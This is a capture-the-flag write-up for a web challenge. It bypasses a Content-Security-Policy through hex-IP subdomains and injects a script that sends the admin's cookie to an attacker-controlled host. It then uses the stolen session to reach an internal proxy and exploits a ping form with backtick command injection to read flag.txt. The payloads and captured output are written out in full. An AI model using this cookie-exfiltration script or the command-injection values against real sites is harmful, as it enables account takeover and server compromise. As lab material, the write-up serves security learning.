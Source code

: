 > Especially thanks to [rebirth](https://github.com/rebirthwyw) who help me a lot when finishing this write-up.

Access site ``http://no.vulnerable.services/``, we can found two useful things here, first, it's CSP:

```
Content-Security-Policy: default-src 'none'; script-src *.no.vulnerable.services https://www.google.com/ https://www.gstatic.com/; style-src *.no.vulnerable.services https://fonts.googleapis.com/ 'unsafe-inline'; img-src *.no.vulnerable.services; font-src *.no.vulnerable.services https://fonts.gstatic.com/; frame-src https://www.google.com/
```

And something like a hint in the footer:

```
Served By: d8a50228.ip.no.vulnerable.services
```

After try sometimes, we found that ``d8a50228`` is the hex format of ``216.165.2.40`` and ``hex(ip).ip.no.vulnerable.services`` would return correspond ip. So we can use this feature to bypass the CSP.

Put the following js script on our site.

```javascript
var img = document.createElement("img");
img.src = "http://7bce41c0.ip.no.vulnerable.services/?cookie=" + encodeURI(document.cookie);
document.body.appendChild(img);
```

And submit the following content:

```html
<script type="text/javascript" src="//{hexip}.ip.no.vulnerable.services/main.js"></script>
```

Then we can see the following record on our server.

```
GET /?cookie=PHPSESSID=ri4r4q1ujkd0rh2fefvcvnfkt0
http://admin.no.vulnerable.services/review.php?id=237
```

Use this cookie visit ``http://admin.no.vulnerable.services``, we will see ``admin.no.vulnerable.services/lb.php`` and ``support.no.vulnerable.services`` on this website.

In ``lb.php``, we can found ``216.165.2.41``, but can not access.

If we change host to ``support.no.vulnerable.services``, it would return ``Hacking detected! Denied attempt to proxy to a NVS internal hostname. Your IP has been logged.``.

Seems ``216.165.2.41`` is a proxy, so we could use ``{hexip}.ip.no.vulnerable.service`` again.

Dig ``support.no.vulnerable.services``, know its ip is ``172.16.2.5``, so we can use ``ac100205.ip.no.vulnerable.services`` to access it.

Then we get a page can ping, seems it's a command line injection. After try

```
127.0.0.`ls`
```

get

```
ping: 127.0.0.flag.txt index.php ping.php: Name or service not known 
```

Finally, it's time to get flag:

```
127.0.0.``cat flag.txt``
```

=> 

```
ping: 127.0.0.flag{7672f158167cab32aebc161abe0fbfcaee2868c1}: Name or service not known 
```
